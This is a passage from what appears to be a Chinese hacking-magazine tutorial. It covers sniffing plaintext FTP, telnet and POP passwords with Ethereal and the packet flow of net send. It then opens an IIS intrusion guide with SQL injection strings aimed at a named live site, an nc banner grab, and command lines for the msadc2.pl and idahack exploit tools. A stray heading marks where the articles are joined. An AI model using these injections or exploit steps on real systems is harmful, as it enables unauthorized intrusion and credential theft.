接下来，还是判断操作系统的一个方法，只不过这里用的不是 Identifier 值，而是利用这个 Data 段（这个方法好像没有在网上见过哦！纯属个人发现 + 个人推测，如果不够准确，别丢我上砖）。我们假设在正常的 ping 下（什么时候不正常？这个情况很多了，不过最常见的就是现在很多后门工具都利用了 ping 报文，如果抓到这样的报文，看起来一定不正常），我们来看看 Linux 系统和 Windows 系统发出的 ping 报文的数据段的内容（注意，这里我们不是通过数据的大小来判断，因为无论是 Linux 还是 Windows 都可以通过加参数来改变 ping 的时候发送的数据长度，因此使用长度判断没有什么意义），会发现其 Data 段内的填充内容是不同的，我们来比较一下：

Windows 系统发出的 ping 报文 Data 段（示例）：
```
00000020      61 62 63 64 65 66           abcdef
00000030  67 68 69 6A 6B 6C 6D 6E 6F 70 71 72 73 74 75 76
            ghijklmnopqrstuv
00000040  77 61 62 63 64 65 66 67 68 69      wabcdefghi
```

Linux 系统发出的 ping 报文 Data 段（示例）：
```
00000020            44 28 F0 3F A4 CB
D(?.....
00000030 05 00 08 09 0A 0B 0C 0D 0E 0F 10 11 12 13 14 15
00000040 16 17 18 19 1A 1B 1C 1D 1E 1F 20 21 22 23 24 25
... !"#$%
00000050 26 27 28 29 2A 2B 2C 2D 2E 2F 30 31 32 33 34 35
&'()*+,-./012345.
00000060 36 37        67
```

看最右边的数据内容（不要看中间的十六进制代码），可以看出来，Windows 发出的 ping 报文中的 Data 部分是有规律的，即从小写字母 a 开始至 w 结束，使用这段英文字母来进行填充，当到 w 时数据长度还不够的话，则又会从 a 开始继续进行填充，直至数据长度到达要求（Windows 的 ping 报文默认长 32 字节）。

而 Linux 系统似乎则不是这样的，怎么看都像是毫无规律随机产生的。

因此，通过这一明显特点，区别对你进行 ping 探测的主机是 Linux 还是 Windows 还是应该可以做到的。如果使用上面说的 Identifier 值的方法和这个方法配合起来，我想应该能做出比较准确的判断。

> 以上只是针对系统自带的 ping 工具来试探对方进行分析的，如果探测方使用其他的 ping 工具或者自己编写程序来实现的话，那么通过这种方法是很难判断出来的。

为方便说明，在这里我简单编写了一个实现 ping 功能的程序，我们可以来看一下用 Ethereal 抓到的该 ping 程序的数据包（图 27）。使用上面讲述的方法，从图 27 中并不能看出，在该程序中，ping 请求发送的数据是没有的，该程序是我使用 Perl 实现的。如果使用一些高级 Perl 调试工具，在调试过程中更能清楚地看见，其发送的 Data 部分其实是 “NULL”，是没有意义的。通过修改程序及其使用的 Module，还可以实现任何类型的数据填充。而且，该段 Perl 脚本还可跨平台运行。因此，通过对 ping 过程中所承载的数据进行分析来判断操作系统类型还是有一定的局限性，并不能达到百分之百的准确。

## 实例二：FTP 和 Telnet 的用户名字和密码的嗅探

由于 FTP 的用户名和密码在网络上传输时都是使用明文传输的，因此，可以使用 sniffer 工具将用户名和密码抓到并找出来。虽然一些 FTP 软件中支持 FTP 的用户名和密码加密，但是如果客户端没有进行良好的加密措施，这些敏感数据还是会在网上以明文形式出现的。

相信很多读者都使用 xsniff 这个小工具抓到过 FTP 的密码吧！xsniff 虽然抓起来很方便，但你有没有想过使用一个真正功能完全的 sniffer 来抓取并从中分析出来呢？如果你真的想这么做还没有机会的话，那么，今天我带你来做；）

### 1. FTP 的 sniffer

首先，这里仍然是使用 Ethereal，打开一个嗅探到的 FTP 过程的 sniffer 文件，使用一下过滤功能，把 TCP 数据包过滤出来（图 28）。

首先，应该能从混杂的数据中先确定 FTP 服务器的地址，如何确定？很简单，从图 28 中可以看出，在每一行的 “Info” 一栏中有这样的东西：`port_1 > port_2`。很显然，这就是说数据方向是由 port_1 到 port_2 方向的，如果我们找到最先发起请求的那一方（先发起请求的肯定是 FTP 的客户端）的 IP 地址，那么，FTP 服务器的 IP 自然就找到了。根据 “Info” 中的信息还可找到 FTP 的端口。这样， FTP 服务器的相关信息就都能确定了。

好，接下来，我们来寻找 FTP 服务器的地址（图 29）。我们设 211.*.*.1 那台主机为 A，而 211.*.*.107 那台主机为 B，那么，大家能判断出谁是 FTP 服务器吗？

在 TCP 三次握手过程中有定义，那就是在发出建立连接请求的主机一方（即客户端，在这里就是主机 A），其发送的连接请求中是没有 ACK 位的，而且，在 TCP 连接中，也只有在发送数据请求时才会没有 ACK 位。过程中，仔细看“Info”一栏，里面有这样一个控制位的信息，即 [SYN]（有且只有这一个控制位），然后再向下看会发现，下面的所有条目中都会有 [ACK] 这个控制位的存在。所以，可以判断，第一条告诉我们的信息就是主机 A 向主机 B 发送请求连接的信息，那么，毋庸疑问，A 必定是客户机，而 B 就是 FTP 服务器了。

> 通俗的讲，主机 A 发送的请求中是 ACK 没有被设置，而非设有 ACK。即在 TCP 的标志位中，如果控制位没有被设置，那么其值就为 0。在图 30 中可以看到 `ack=0` 这条信息。

接下来，我们就需要进行用户名和密码的查找工作了。因为用户名和密码是由主机 A 发送到主机 B 的（即 FTP 客户端发送到 FTP 服务端），所以，我们应该格外注意主机 A 到主机 B 发送的数据。这里，还有个知识点需要说一下，我们来看一下 FTP 的数据结构（图 31）。可以看到，其结构中分段是这样的：Ethernet 段、IP 报文段、TCP 报文段，最后还有一个没有任何标识的 Data 段。

我想，很多人会对这个没有任何标识的 Data 段感到奇怪吧！在 RFC 文档中曾经有这样一句话：FTP 是 TCP/IP 协议栈中唯一一个基于数据传输的协议。通过这一句话，我想各位读者就应该明白为什么会有这么一个 Data 段了吧！

好了，我们继续说。大家一条一条来看主机 A 到主机 B 的这些连接情况，直到看见有一条内容中出现了上面我们说的 Data 段时，那么这个时候连接就算是建立了。连接建立后就应该开始接收一些 FTP 信息并发送一些客户端信息，而在客户端信息中就必然包括用户名和密码。

在这个 sniffer 结果中，我在第四条中就看见 Data 段出现了（图 32），在这里点选 “Data” 段后，在最下面的栏中可看到 FTP 的欢迎信息：

```
220 Welcome to python's FTP server
```

这个可是非常关键的标志性东西，接下来我们要一条一条的查看，而查看重点就在数据传输中的 Data 段中，如果对方一次性登录成功的话，向下不出五条就应该可以看到 Data 数据段中出现了 “USER” 字样，这里可不要放过，因为 USER 后面跟着的就是 FTP 用户名了（图 33）。

这里很容易就看出来，USER 后面是 anonymous（小写），然后我们再继续看下一条。下一条是 FTP 服务器的返回信息（图 34），从返回信息中可看到一些关键字：`user name okay`。这条信息告诉我们该用户名存在并允许登录该 FTP 服务器。另外一个关键字则是：`password`（结合整条信息来看，服务器在要求客户端输入该用户的密码）。

OK！再继续看下一条（图 35）。在这里，我们找到了期盼已久的东西，那就是用户密码：`PASS anonymous`。可见，客户端发送的密码是 anonymous，为保证该密码确实是正确的，我们还要继续看。

再看下一条（图 36），这里我们可看到信息：`user logged in`。这就是我们想要的结果了， FTP 服务器提示用户登录成功。那么，我们就获得了用户名称和密码：anonymous 和 anonymous（注：其实这就是匿名登录的用户名和密码）。到这里，我们成功获得了 FTP 的用户名和密码。

### 2. telnet的sniffer

对TCP进行过滤，在Ethereal中可对telnet进行过滤，这些都不需要我再废话了。

经过处理后，得到图37的结果（图37）。这里，211.*.*.107是telnet服务端，而211.*.*.1是telnet的客户端，我们仍然称211.*.*.107为主机B，而211.*.*.1为主机A。

而实际上就是服务端的一些回显信息而已，将他们组合在一起（记得将“\r\n”这样的组合改为回车），就得到了登录欢迎信息。


首先，先简单了解一下telnet的协议规范：依据RFC文档RFC 854，telnet中客户端和服务端能做的就是DO、DON'T、WILL、WON'T这些动作（在telnet中，这些叫做telnet的选项）。例如DO ECHO，这就是设置回显，具体的在分析过程中会有讲解。

另外，需要了解的是，telnet是基于八位（即一字节）的通信机制，也就是说，当telnet连接真正建立后，每次传输过程中只传输一个字符而已。

好了，知道了这些就比较好分析了，首先，我们从第一条开始（图38）。

接下来，仍然会是几个交互过程，大部分都是command的内容，而里面又都是些选项，大家如果自己有条件，自己sniffer一下然后分析吧！这些部分只要能看懂正文，绝大部分都能明白是什么意思的。

我们这里就直接跳到连接建立后数据开始传送的这部分。首先，先确定什么时候telnet数据开始传送。

从直观上看，当我们收到登录欢迎信息后，会有提示符“login:”要求输入用户名和密码，到此为止，我们就已经完成telnet连接的建立了。正因为如此，输入用户名和密码的过程才会被纳入telnet连接中，而且，也正是由于telnet协议的明文传送问题，导致了用户名和密码在网上暴露的问题。

继续上面的话题，我们直接跳到了数据传送的部分，这里，数据传送部分中最先传给服务端的应该是用户名和密码了。因此，我们最先看到的响应应该是用户名，然后是密码，但是，我说过：telnet是基于八位字节的通信机制。那么，如果一个用户名为：abcd，那么，其传送过程就应该分为四次，第一次传送a，第二次传送b，依次类推，第四次传送d，最后，再输入一个换行符（回车），就相当于告诉服务端：已经完成了用户名的传送。然后，就会开始传送密码，然而传送方式和传送用户名是一样的。

好，接下来结合我们sniff到的数据来具体看。大家将telnet协议的数据包过滤出来后，一条一条仔细看，当大家看到类似这样的数据时就应该说明telnet数据已经开始传送了（图39）。如果发现前面的telnet数据段中都有大量的选项和Data，而到这一条突然telnet中只有Data时，那么，就应该说明telnet连接已建立，数据传送已开始了。


这里我们看到的第一条不是主机A（客户端）向主机B（服务端）发送请求，而是主机B给主机A的设置选项和回显。这是因为过滤的问题，因为我们过滤的是telnet而不是TCP，而实际上主机A向B发送连接请求时（即使用命令telnet B）还不属于telnet，而完全是一个TCP的连接请求。因此在过滤出telnet时，这个过程并不包含在内，这个过程和TCP连接请求类似，只不过加了些telnet的标志而已，没有太多好分析的，所以我们就跳过去不分析了。

从图38中可以看到“command: will echo”（这是服务端B告诉A服务器将打开回显）。图38中，连续的四个“Data”段中类似有这样的信息“xxxx\r\n”，熟悉编程的人应该知道，“\r\n”就是Windows下的回车（*NIX下的回车是“\n”），因此，这些Data后面从图39中可以看出，这是客户端向服务端发送的第一条数据，内容为：小写字母p。然后我们看下一条（图40），很显然，这一条是服务端向客户端发送的数据。

但是，大家也许会感到奇怪，为什么服务端发送给客户端的和客户端发送给服务端的数据是一样的，都是一个小写字母 p ？很简单，还记得前面说的 command：will echo 吗？这其实就是服务端的回显。

接下来，我们就按上面查看字母 p 的方法来依次查看。为节省版面，我将用户名剩下的几个字符的数据拼在一起截图成了一张图（图41）。大家可以看到，最后拼在一起，用户名就为：python。


接下来，用户名输入完成后，再看下一条客户端向服务端提交的信息（图42）。这里看到了，输入的信息是“\r”，在编程中规定转义字符“\r”为回车。这样，从直观上看来，当输入完 python 这个用户名后， we输入了一个回车。


接下来，用查看用户名的方法来查看密码。不过，在密码查看过程中，大家会发现服务端的回显与查看用户名时不一样（图43），由于安全原因，telnet 的密码回显部分回显的全部都是星号“*”。


依次使用这种方法，我们可轻松获得密码发送过程中每个阶段所发送的字符（图44）。


这样我们就找到了密码的后三个字符：BCD，加在一起，就可以知道，密码为 ABCD。当然，密码输入完成后，下一条客户端向服务端提交的请求仍然是“\r”（回车）。

另外，如果有兴趣而且不嫌麻烦的话，我们甚至可监视整个 telnet 的过程（只不过需要有耐心，自己一个字符一个字符地拼凑起来），在这里我就不说了，这是肯定可以实现的，有兴趣的朋友自己去玩吧！到此为止，telnet 的密码嗅探我也已经说完了。

## 实例四：分析 net send 的过程

首先我们需要了解的问题（对很多人来说，这部分是必读）：net send 的用法相信很多人都知道了，一般有两种命令格式（一定要看，因为其中一种格式很多人都有错误的理解）：

```
net send IP_address message
net send Net_Name message
```

第一种使用 IP 地址来发送消息的没有问题，看一下第二种情况，相信很多人会问我为什么写的是 Net_Name（叫做网络别名）却不是 Computer_Name。其实，如果这里写 Computer_Name 的话，从实际操作上也是可以的，但对于 Messenger 这个服务来说，就是错误的了。

这里，我们来看一下下面这几个命令和返回结果，然后再来说上面的问题：

```
C:\>net name

名称
-------------------------
PYTHON
命令成功完成。

C:\>net name computer
消息名称 COMPUTER 添加成功。

C:\>net name

名称
-------------------------
PYTHON
COMPUTER
命令成功完成。
```

本机的主机名就为 PYTHON，可见，默认情况下，主机名也是我们所说的 Net Name 中的一个。一台主机是可以有多个 Net Name 的，上面的命令 `C:\>net name computer` 就是我们为本机添加了一个 Net Name——computer。

在 net send 的过程中，即使 send 过程是使用 IP 地址进行的，也需要将 IP 地址映射到一个 Net Name 上之后才能进行 send。当有多个 Net Name 时，将使用默认的 Net Name，即主机名，默认的这个 Net Name 是无法删除的（即使在删除时返回成功信息，再查看的话还是会有），我们可以实验一下：

```
C:\>net name
名称
-------------------------
PYTHON
命令成功完成。

C:\>net name python /del
PYTHON 已经删除。

C:\>net name
名称
-------------------------
PYTHON
命令成功完成。
```

### 1. 依靠 Net Name 来进行 send

基本的一些内容大概已经澄清了，接下来我们就以 IP 地址和 Net Name 两种方式来使用 net send 命令，分别看一下效果和中间过程是怎么样的。

因为刚才我们的主机上有个叫做 computer 的 net name，因此，我们就使用该 net name 来发送信息，在另外一台主机上使用命令：

`net send computer hello.`

然后在本机上进行 sniffer，当收到消息后停止 sniff 即可（图45）。


从图45中看第一行，可以看到，发送消息的主机（即211.*.*.1）发送的目的地址是211.*.*.255，很明显，这是一个广播，从后面的“info”栏中也可以看出，它是在查询“computer”这个 net name（这里也注意 NetBIOS 中标志性的后缀`<03>`，它被定义为 Messenger Service）。接下来的一行，便是拥有“computer”这个网络别名的主机（211.*.*.107）来答复：告诉请求主机它的具体位置，我们来展开这一项看看具体内容（图46）。


展开后，在“NetBIOS NAME SERVICE”里面找到“Answer”并展开，在这里，我们就可清楚地看到拥有网络别名“computer”的主机的应答内容了（注意图46中被选中的部分）。在最后一行，还返回了明确的 IP 地址。

以上的两个过程是基于NetBIOS的，使用了NBNS协议（NetBIOS 名字服务器）。OK，这里先做一下保留，暂时什么都不说，一会讲到最后时一起说，大家记住！

完成上面两步后，接下来三步是远程主机与本机的 NETBIOS 端口（即 TCP 139）建立了一个连接。从 sniff 到的内容上来看，无从得知为什么要建立这个连接。但结合后面部分一起来看就会知道了，所以，这三步先放在这里。

接下来，又有两步 NBSS，这里就比较有意思了，发送消息主机使用 NBSS 来与接收信息主机建立一个会话，用来确认发送消息方的主机名（确切说是网络别名）和接收消息方的网络别名（图47）。至于为什么会有这个会话的建立呢？我想，和前面三步的 NETBIOS 端口的连接建立的关系是密不可分的吧！

接下来会有使用 SMB 协议的数据传输，在其中展开来看细节，我们会发现发送的信息内容（图48），可以看到内容，因为传输是明文的。


但由于使用了 SMB，所以这里所谓的“明文”也只是对接收方和发送方双方而言。在 SMB 后，又是三步 TCP 连接的释放（图49）。


好，这里来说 TCP 连接建立的作用，一个作用是为 NBSS 这个会话提供，前面已经说到了，另外一个作用就是为 SMB 提供的了（多少带有一些猜测）。看这 SMB 会话劫持的读者也许会对 NETBIOS 连接为 SMB 会话提供支持而感到疑惑（因为没有看到验证过程），但是，在实际操作中，很多基于 SMB 传输的请求或是应答都会经过“验证”的（不带验证）。简单说一个过程，就是 kerberos 验证过程，在验证时，需要查找 KDC，然而，获得 KDC 最直接且最简单的方法就是通过 NETBIOS 端口，所以，KDC 往往是要开放 NETBIOS 端口且允许空连接的。

对了，上面关于使用了 NBNS 协议的部分我们还做了一些保留。OK！我们继续保留（众人倒~~~），等说完使用 IP 发送消息的部分后再一起说。

### 2. 依靠 IP_address 进行 send

其实，依靠 IP 地址进行 send 与上面的不同之处就在于前两步，也就是在网络别名的处理上。然而，这前两步却也是使用 NBNS 协议的一个过程（图50）。


关于查询部分，无非就是查询这个 IP 使用的网络别名是什么（我前面明确说过，Messenger 服务是依靠网络别名来传送消息的）。这里，我们来看一下应答过程，展开看一下细节（图51）。


这里只简单展示了一下大概状况，主要内容都在 Answer 中。因此，我们展开 Answer 来看（图52，注：由于篇幅问题，所以图中显示内容不全，只把一些重要部分展示了出来）。

图显得比较乱，但是仔细看，看到结果后，有些朋友应该有熟悉的感觉。如果不熟悉的话，那就使用一下 nbtstat 命令吧，在该命令中查询 name table 信息后，结果列表就与图52中的结构有些类似。


图52


图53

| Source | Destination | Protocol | Info |
|---|---|---|---|
| 211.*.*.107 | 211.*.*.255 | NBNS | Name query NBSTAT WORKGROUP<1d> |
| 211.*.*.107 | 211.*.*.107 | NBNS | Name query response, NBSTAT |
| 211.*.*.107 | 211.*.*.255 | NBNS | Name query NB WORKGROUP<1c> |

图54

值得注意的是，图52中的部分有关关键词——B-node，关于 NetBIOS 的知识我不想重复太多，网上有很多相关资料。这里就告诉大家，B-node 表示一个节点类型，B 代表 broadcast，即广播。好，记得前面我说过保留的那部分吗？也是 NBNS，在这里，我们一起来说吧！这里简单讨论一下 NetBIOS 的问题，顺便也涉及到了 net send 是否能在广域网上进行的问题。

如果使用网络别名进行 send 的话，肯定是无法在广域网上进行 send 的，这是毫无疑问的，现在关键就在于使用 IP 地址的时候，在广域网上是否可以 send。

从 sniff 到的结果来看，使用 IP 时，也是需要进行名字查询的，查询的是网络别名（这个可不是我随便乱说的，而是微软规定的），而依据 NetBIOS 的定义，名字查询本身就是一个广播的过程。因此，一旦跨越了一个或多个网段，其中若有路由器或第三层交换机阻隔的话，由于这些设备的特性，广播将会被阻隔（当然，默认情况是这样的，如果愿意，我们也可以让路由器和交换机不屏蔽任何广播，但应该没有哪个笨蛋会这么做，这不但容易引起广播风暴，而且，更容易使得他的网络变成 smurf 攻击中的放大器）。

除了广播外，NetBIOS 的名字查询将使用 NETBEUI 协议。由于其特性，NETBEUI 不可路由（也别问我为什么不能路由，因为这也是规定，国际规范，没办法啊）。因此，当两台主机在不同网段时，NETBEUI 协议将不可能成为两台主机之间的通信协议。

所以，就目前这些讨论来说，net send 是无法在广域网上进行传送消息，但由于微软提供了一个叫做 NBT（NetBIOS over TCP/IP）的东西，使得 NETBIOS 报文相对于 NETBEUI 协议承载的数据独立出来（从 NBT 上来看好像是这样的，因为 NETBIOS 报文现在依赖 TCP/IP 来承载而不需要 NETBEUI 了——喜新厌旧的家伙，很符合微软的性格），而形成自己特有的报文，并使 NETBIOS 报文能在 TCP/IP 的网络上任意传送（当然，前提是安装这样的协议以提供支持）。

不过，虽然有了 NBT 协议，但由于名字查询的过程最终还是需要依靠广播。关于这一点，我们可以使用 `nbtstat -A` 这个命令来证实一下（图53）。同时，再看一下 sniff 的结果（图54），从图中可以看出来，有两个请求地址是 211.*.*.255 的，可见，第一个和第四个过程是使用广播的，从 “info” 一栏中也可看出来，查询是在 WORKGROUP 内进行的。所以说，这个过程不但是限制在一个冲突域内（简单理解为一个广播范围所能达到的最大范围内），而且，还被限定在同一个工作组内。

因此，如果不出现意外情况的话，net send 应该是无法在广域网上进行传输的（关于这部分，也可以查询微软的 KB，使用关键字 net send 查询，会找到相关信息）。

不过，问题的更关键部分好像集中在 NETBIOS 名字解析（具体来说应该是网络别名的解析）上。所以，使用 lmhosts 或 WINS 服务器的这些传统方式进行的话，从理论上来说似乎是可以的，不过由于环境限制，没有测试过。有知道的朋友请告诉。

关于 net send 的问题，到最后好像并没有讨论清楚发送问题，但对大家来说，相信你们已经了解其过程了。所以，目的基本达到了。

## 截获 POP 密码问题

刚才的 net send 也许说得大家摸不着头脑吧，这里我来讲一个比较简单明了的，就是邮件密码的嗅探。

如果想要顺利 sniff 到邮件的密码，首先保证的是邮件接收过程中使用的是 Outlook Express 这样的客户端工具，而不是使用 Web 来进行邮件的收发。只有使用特定的客户端软件和 POP 服务器直接连接才会暴露出在验证过程中的密码安全问题。话不多说，接下来，就把这样的过程做给大家看。

在这里，我使用的客户端软件是 Outlook Express（简称 OE），如何配置就不说了。打开 OE 后，填上用户名和密码，然后点“确定”准备接收邮件，而在另一边，支起 sniffer 准备抓取用户名密码。我们来看一下 sniff 到的结果（图55）。


图55

整个过程完全在 sniffer 的结果中反映出来了。

# 主题乐园

结果中，我使用了过滤功能，将使用POP协议的数据过滤出来了。首先，看一下第一行：这一行是服务器向我返回的一些服务器信息（图56），图中主要看到了服务器的一些基本信息，就是POP服务器的版本为version 3.1。


图56

这个不用管它，没什么需要的，继续看下一行。这一行中则包含了用户名信息（图57）。很明显，这是一个客户端的请求，就是送出一个用户名为python的邮件接收请求，然后服务器会自动检测该用户名是否存在，存在的话，将会出现下个过程（图58）。这个过程看到了，服务器返回一条信息：

```
Response: +OK
Response Arg.: Password required for python
```


图57


图58

信息很明显，服务器告诉我们，用户名OK了，但是该用户名（即python）需要密码，接下来就是密码的校验过程了（图59）：


图59

```
Request: PASS
Request Arg.: abcdef（这个就是密码，经过处理）
```

这里是客户端送出密码，要求服务器验证。到这里，用户名和密码的验证过程就结束了，我们可以很容易地就获得密码。

个人认为，POP密码的嗅探基本来说是最简单的，验证步骤少，而且过程很明了。


关于网页的嗅探一般是很少会进行的，主要因为：一般在hack过程中对web的嗅探起不到什么辅助作用，但对一般人来说，网页嗅探器的最好作用就是用来获得下载地址。

相信很多朋友都访问过在web页面中镶嵌了一些flash和音乐或视频的页面，而在访问这些页面时，有没有遇到过想获取页面中的某些音乐或flash而无法找到下载地址的情况呢？如果有，那么，网页嗅探器就会对你大有帮助。

在这里，我们就以获得一个flash地址为例，简单讲述一下网页嗅探器的应用。

其实，主要涉及到的不是嗅探的知识，而是web制作中会涉及到的一些问题（主要就是web路径的问题）。如果大家对这方面知识稍有了解，那么，再加上使用专用的网页嗅探器的话，相信大家都可以做到的。

不说废话了，打开IE，输入web地址，这里以http://www.hackerxfiles.net为例，打开网页嗅探器，这里我们使用的是前面提到的EffeTech HTTP Sniffer。

访问过X档案主页的朋友都应该见到过，在页面上方有一个flash，我们的目的就是获取这个flash的地址。

等待IE中web网页全部显示出来后，关掉sniffer，然后查看一下（图60）。

在这里，server的地址已经确定了，就是www.hackerxfiles.net，我们来查看一下后面一栏的url，因为我们要获取的是一个flash地址。因此，在url一栏中查找以“.swf”结尾的地址，在EffeTech HTTP Sniffer中我没有发现有什么过滤功能，因此，我们就一项项来逐条查看，并不难找，很快就会找到这个地址，地址为/top.swf（图61）。


图60

这样一来，大家就应该都不难找到这个flash的地址了，将其添加到http://www.hackerxfiles.net后，即http://www.hackerxfiles.net/top.swf就是我们需要获取的flash地址。


图61

有时，如果站点上有多个flash，会发现很多的类似地址。这样一来，只有逐一尝试以查找正确的地址。方法很简单吧？对于一些在网页中镶嵌入音频或视频的情况，也可以这样做。

另外，EffeTech HTTP Sniffer除了上面说的用法之外，还有一点小小的用处，也许大家都能看到了。这里就说一下。仔细看一下EffeTech HTTP Sniffer的HTTP Request Header和HTTP Response Header这两栏（图62）。


图62

另外，看一下左边的 Cookie 一项，这是客户端送出的，不过，对于使用自己电脑的用户来说，即使看到了 cookie 信息也没什么用吧！

对于使用别人电脑的朋友来说，在一些特殊情况下，获取 cookie 也许还是有些用的（虽然说在本机上能够查看，但这样来看似乎更直观一些）。关于这点，和本文关系不大，就不详细阐述了。

总之，EffeTech HTTP Sniffer 看上去使用很简单，获得的结果内容好像也不是很丰富，但在很多情况下，如果善加使用的话，还是很有用的，大家自己再探索探索吧！

## 结束语

sniffer 的这个专题基本上就到此结束了，不知大家看过后，是否对你们有所帮助。本人认为，通过实例讲解会让读者对分析数据的方法有个比较透彻的了解和认识，因此，也就把重点放在了这一部分上。

By the way，发点牢骚吧！在写这次专题的过程中，涉及到了微软网络中的 sniff 和 Linux 网络环境中的 sniff，发现微软的网络有太多的不规范（这里的“不规范”是相对国际标准来说的），很多东西都是微软自行主张的东西（哎，没办法，人家有势力嘛），而 Linux 的网络中则大部分都符合标准，相对于微软的网络来说，分析起来容易多了，当然，前提是你了解 TCP/IP。

Internet Information Services（IIS）是微软内建在 W2k 系统、服务器版下的 Web 管理器，便于广大用户在 Intranet 或是 Internet 上轻松发布网站。微软当初推出 W2k 系统的本意就是与 Unix 争夺全世界的服务器市场份额，IIS 正是 w2k 系统的超级武器。IIS 在 W2k 下默认的服务名为 w3svc，而全球信息网协会（world wide web consortium）的简称是 w3c，如果你用 IE 保存一个网页，用记事本打开源码，就会在首行看到`<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">`，这一切也许只是巧合，但微软雄霸 PC 世界的勃勃野心从中可以管中窥豹。但好笑的是，从 Winnt 下的 IIS3.0 到如今 Win2003 系统下的 IIS6.0，微软的 IIS 一直成为被黑客频繁问候的对象。在 Google 里搜索“脆弱的 IIS 安全机制”这样的标题比比皆是。网警之类工具的泛滥也成就了像我这样的一批快餐黑客，这样的黑客最爱的系统就是 w2k，在他们机器的某个角落肯定放着装有大量入侵 IIS 黑软的工具包。本文要讲的正是 IIS 的经典漏洞回顾、入侵 w2k 后 IIS 的利用心得及如何加固你的 IIS。


## 如何判断web服务器是w2k上IIS及其他

### 信息篇

也许用端口扫描软件来扫描服务器的 80 端口，从中获得其 banner 的信息为 IIS5.0 是个不错的办法。但不如我们用 nc 登陆到对方的 80 端口，提交 get 查看信息来得方便迅捷（图1）。

```
D:\hacker\yichu>nc -vv 192.168.1.3 80
rich [192.168.1.3] 80 (http) open
get
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
```

从返回的结果我们可以很清楚地看到 IIS 的版本为 5.0，那么基本可以断定对方是 w2k 系统了。在 W2K+IIS 的平台上，有没有更进一步得到对方主机信息的方便呢？如果对方的网页采用了 MSSQL+ASP 结构的话，恰恰脚本没有过滤好，我们便可以获得更详细的资料了，甚至连对方的 Web 物理路径都可以得到。举个小例子：http://www.tfyjl.com/news.asp?serial=3，其中 serial 没有过滤外部的脏数据，在尾部加入 1=1 正常显示，加入 1=2 暴露错误信息。只要我们采用 MSSQL 的全局变量，便会获得大量的信息。提交：

```
http://www.tfyjl.com/news.asp?serial=3 and 1=(select @@VERSION)
```

返回：

> [Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'Microsoft SQL Server 2000 - 8.00.760 (Intel X86) Dec 17 2002 14:22:05 Copyright (c) 1988-2003 Microsoft Corporation Standard Edition on Windows NT 5.0 (Build 2195: Service Pack 4)' 转换为数据类型为 int 的列时发生语法错误。

得到了对方为 w2k 系统，其补丁为 sp4，MSSQL 版本为 2000。


图1

```
http://www.tfyl.com/news.asp?serial=3 and 1=(select @@servername)
```

返回：

```
[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 '1ST-DZFLNCHO4AO' 转换为数据类型为 int 的列时发生语法错误。
```

得到了对方的主机名字是“1ST-DZFLNCHO4AO”。自然，运用 MSSQL 全局变量还可以得到其它的一些相关信息，这对于黑客踩点来说是十分有用的。另外，利用 xp_regread 扩展存储过程和 sp_makewebtask Web 助手存储过程还可以得到保存在注册表中 WEB 终端路径，不过这与本文的写作宗旨相差太远，具体方法你可以去研究一下 MSSQL 高级编程。

## IIS经典漏洞及利用方法回顾

我在绿盟网站用 IIS 作关键词可以查阅到 195 个漏洞，在安全焦点查到 108 个，都占到了该站收集的 Windows 漏洞条数的 30% 以上。现在随着 w2k 补丁的不断发布，至如今可以被菜鸟黑客利用的 IIS 漏洞越来越少，但不可否认，有古董级别漏洞的服务器在 Internet 上依然大量存在，从本章节找入侵成功后的截图就可以简单证明。另外，因为多数的 IIS 漏洞《黑客 X 档案》杂志以前或多或少涉及到了，所以本章节我只是对以往的经典漏洞做了个简单回顾，对现在才入门学黑客的菜鸟起一个提纲挈领的作用，同时可以算是看了一部经典老片。如果你对本章节的入侵方法有不明之处，我相信 Google 上肯定会存在大量漏洞的相关资料与动画教程，你也可用我的小段标题作关键字用来在绿盟查阅详细漏洞因素。

### 1. Microsoft Windows NT IIS MDAC RDS远程命令执行漏洞

RDS 是 Remote Data Services(远程数据服务)的简称，它是 Microsoft Data Access component(MDAC)的一个组件，其中的 DataFactory object 可以允许未授权的用户访问一些受限制的文件或执行 SHELL 命令。该漏洞受影响版本为 WinNT+IIS3.0，利用工具 msadc2.pl，可以得到系统最高权限。工具使用及入侵方法为（前提请在本机装有一个 Active perl 解析器）：

```
perl msadc2.pl -h ip
```

成功的话可以得到 cmd/c 命令行。这是一个古老的漏洞，我扫描了上千台门户和虚机也没有发现此漏洞，无奈之下在网上找了两幅当年入侵成功截图。图 2 就是入侵成功后激活了对方主机存在的禁止用户 mycom，图 3 是将 mycom 用户加入 administrators 组。


### 2. IIS泄露 ASP 源码漏洞

从 IIS3.0 至 IIS5.0，可以获得 ASP 文件源码的方法很多，据不完全统计共有 34 种。这样的漏洞不仅可以获得服务器端的 ASP 的源码，服务器上的其它文本文件的源码我们都可以得到。也许你在 Google 上可以找到《IIS 参数漏洞的整理》、《IIS 的十七条漏洞》等文章，其实不过都是 IIS 泄露 ASP 源码漏洞的收集总结。我这儿提供一个 Delphi 编写的傻瓜工具白鸽，用它来查看有漏洞的服务器的 ASP 源码最方便不过（图4）。值得注意的是，前不久 cat 在灰鸽发布了一个动画教程，提示在打了 sp4 补丁的 w2k 下，依然有用 null.htw 方法看到 IIS 服务器其它文件的源码的可能（相关动画详见光盘）。


### 3. Microsoft IIS .IDA / .IDQ ISAPI扩展远程缓冲区溢出漏洞

微软 IIS 的索引服务可以加快 WEB 的搜索能力，提供对管理员脚本和 Internet 数据的查询，默认支持管理脚本 .ida 和查询脚本 .idq，不过都是使用 idq.dll 来进行解析。问题存在于 idq.dll 扩展程序上，由于没有对用户提交的输入参数进行边界检查，可以导致远程攻击者利用溢出获得 SYSTEM 权利来访问远程系统。


如果我们以 http://xx/x.idq 来访问服务器的话，服务器给你在 IE 中返回了一个物理路径，即可断定 90% 可能存在此漏洞。该漏洞受影响系统为 IIS4.0/5.0+w2k/sp2 以下版本。利用工具是 sunx 写过的 idahack.exe，可以得到系统最高权限，并可以重复溢出。入侵方法：

```
idahack <主机> <主机端web端口> <主机sp类型> <获得shell端口>
```

图5、图6 是我入侵后的成功抓图。

### 4. Microsoft Windows 2000 IIS 5.0 .printer ISAPI扩展远程缓冲溢出漏洞

